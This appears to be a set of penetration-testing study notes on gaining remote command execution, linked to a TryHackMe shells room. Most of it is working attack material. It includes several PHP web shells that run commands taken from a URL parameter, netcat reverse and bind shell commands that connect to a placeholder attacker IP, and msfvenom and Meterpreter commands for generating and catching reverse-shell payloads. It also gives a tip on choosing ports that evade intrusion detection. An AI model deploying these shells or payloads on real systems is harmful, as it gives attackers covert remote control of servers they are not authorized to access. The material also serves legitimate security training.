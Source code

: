 # Shell

[![introtoshells](../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-md-2"><div>

The best kind of situation of a hacker is when it's possible to run commands on the target, or better, to run code on the target. The hacker will typically exploit a vulnerability <small>(ex: file upload, command injection...)</small> leading to a **RCE**

* Remote Command Execution
* Remote Code Execution

On Kali, you can find preinstalled reverse/web shells inside ([gitlab](https://gitlab.com/kalilinux/packages/webshells))

```bash
$ ls /usr/share/webshells
```
</div><div>

The script leading to a RCE could use

* a **reverse shell**: we open a port on our machine, and the target connect to it. We can run commands on the target, and hopefully do a successful privilege escalation.
* a **bind shell**: we open a port on the target and connect to it. This is like SSH, but we with a port we picked, and no login/password.
* a **web shell**: we are using a webpage with a form to run commands. It's a bit hard to use, but it may be the only way.

> To avoid alerting IDS, a bind/reverse shell should use a port that would not be suspected such as `443` (HTTPS).<br>
>
> It's not always possible to use a bind/reverse shell, there will most likely be a firewall blocking access.
</div></div>

<hr class="sep-both">

## web shell in PHP

If you created a file **xxx.php**, then you can run commands by accessing the URL **xxx.php?cmd=payload**. The result is wrapped with `<pre>` so that the result is not formatted and displayed raw. I added ` 2>&1` to redirect errors.

<div class="row row-cols-md-2 mt-4"><div>

* ➡️ compacted web shell with `shell_exec`  ([doc](https://www.php.net/manual/en/function.shell-exec.php))

```php
<?="<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>"; ?>
```

which is the same as

```php
<?php echo "<pre>".shell_exec(/* code */)."</pre>"; ?>
```

* ➡️ simple web shell with `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php
<?php
echo "<pre>";
echo system(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
?>
```
</div><div>

* ➡️ simple web shell with `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php
<?php
$output = "";
exec(($_GET["cmd"] ?? "whoami")." 2>&1", $output);
echo "<pre>".implode('<br>', $output)."</pre>";
?>
```

* ➡️ simple web shell with `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php
echo "<pre>";
echo passthru(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
```
</div></div>

<hr class="sep-both">

## Reverse shell

<div class="row row-cols-md-2 mt-3"><div>

* ➡️PHP pentest monkey

You could check out [this script by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) (1.4k ⭐, 2015).

```bash
$ cp /usr/share/webshells/php/php-reverse-shell.php /tmp/revshell.php
$ sed -i 's/127.0.0.1/HOST_IP/' /tmp/revshell.php
s sed -i 's/1234/PORT/' /tmp/revshell.php
```
</div><div>

* ➡️ Using netcat

```bash
# on the hacker machine run
$ nc -lnvp port
```

```bash
# on the target
$ nc HACKER_IP PORT -e /bin/bash
```
</div></div>

<hr class="sep-both">

## Bind shell

We are exchanging sides with what we do in reverse shells. Now you execute the code to listen on the target, and connect from your machine.

<div class="row row-cols-md-2"><div>

* ➡️ Example with netcat

```bash
# target
$ nc PORT -e /bin/bash # v1
```
```bash
# host
$ nc TARGT_IP PORT
```
</div><div>

</div></div>

<hr class="sep-both">

## Stabilize reverse/bind shells

<div class="row row-cols-md-2"><div>

Usually, when opening a reverse/bind shell, the shell is quite instable

* 🚀 you can't use commands requiring user input, such as `sudo` asking for a password

* 🍃 You can't clear nor resize your terminal

* 👑 There is no autocompletion

* ⛔ If you press CTRL+C, the shell dies, so you can't cancel a remote command

> Note that note every shell can be upgraded. For instance, I had issues with the PHP reverse TCP shell in which I couldn't enter `bash` nor call `python` to upgrade my shell. But, when I used pentestmonkey reverse shell, the same commands you can see here worked.

* ➡️ Use a wrapper such as [penelope](https://github.com/brightio/penelope) (0.3k ⭐)

```bash
$ git clone https://github.com/brightio/penelope.git
$ cd penelope
$ python penelope.py 4444
xxx@yyy:path$ # CTRL+C / ...
# on Linux: OK
# on Windows: only a basic shell
```
</div><div>

There are a few solutions way to make things better

* ➡  Manually

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
xxx@yyy:path$ export TERM=xterm # can use clear...
xxx@yyy:path$ # CTRL+Z
kali@kali:/tmp$ stty raw -echo; fg
xxx@yyy:path$ # can use CTRL+C / ...
xxx@yyy:path$ exit
kali@kali:/tmp$ reset # restore your terminal
# you may have to close your terminal
# if it does not respond
```

* ➡️ Manually resize your terminal

First, open another terminal and resize it with the size you want. Use `stty -a` and take note of the number of rows/columns.

Then, In the terminal to resize, use `stty rows n` and `stty cols n`

* ➡️ Use a wrapper such as [rlwrap](https://github.com/hanslub42/rlwrap) (1.8k ⭐)

```bash
$ sudo rlwrap nc -lvnp 4444
xxx@yyy:path$ # still CTRL+C not working
```
</div></div>

<hr class="sep-both">

## msfvenom to create shells

You can use msfvenom to generate all kinds of reverse shells.

<div class="row row-cols-md-2"><div>

* List payloads

```bash
$ msfvenom --list payloads
# payload opening a meterpreter - see metasploit
$ msfvenom --list payloads | grep meterpreter
```

* **Linux**

```bash
# execute /bin/bash -p
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
# Generate a .elf opening a reverse shell (TCP)
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
# Output a command (R=RAW) opening a reverse shell with netcat
# same as "-f raw" (to check)?
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=4444 R
```
</div><div>

* **Node.js**

```bash
# Generate a .js opening a reverse shell (TCP)
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4444 -o shell.js
```

* **PHP**

```bash
# very instable shell, not recommended
$ msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -o revshell.php
# meterpreter
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o revshell.php
```
</div></div>

<p class="text-center"><b>About Meterpreter</b></p>

<div class="row row-cols-md-2"><div>

You can use the metasploit console to catch a reverse shell, which may or may not be a reverse shell. You can then upgrade it to a meterpreter shell, and use a lot of commands/... provided by the framework.

```bash
$ msfconsole -q
msf6 > use multi/handler
msf6 exploit('multi/handler') > setg LHOST tun0
msf6 exploit('multi/handler') > setg LPORT 4444
# for instance, to catch a php/meterpreter/reverse_tcp
msf6 exploit('multi/handler') > set PAYLOAD php/meterpreter/reverse_tcp
msf6 exploit('multi/handler') > run
# then wait for a connection
# then you meterpreter will pop
meterpreter> help # see what you can do
# refer to the metasploit course
```
</div><div>

If you are using this with non-meterpreter bind/reverse shell

```bash
# run the exploit as a job (in the background)
msf6 exploit('multi/handler') > run -j
[XXX Session 1 XXX]
# upgrade session 1 to a meterpreter
msf6 exploit('multi/handler') > sessions -u 1
[XXX Session 2 XXX]
# move to the upgraded meterpreter
msf6 exploit('multi/handler') > sessions -i 2
meterpreter> help
```
</div></div>

<hr class="sep-both">

## Other tools

<div class="row row-cols-md-2"><div>

There is a **script** called [ShellPop](https://github.com/0x00-0x00/ShellPop) (1.4k ⭐, 2018/2019) that is a simplified interface to create reverse/bind/web shells.

There is a **script** called [revshellgen](https://github.com/t0thkr1s/revshellgen) (0.3k ⭐) that is an automated and simplified interface to create reverse/bind/web shells.
</div><div>

There is a **website** called [revshells](https://www.revshells.com/).
</div></div>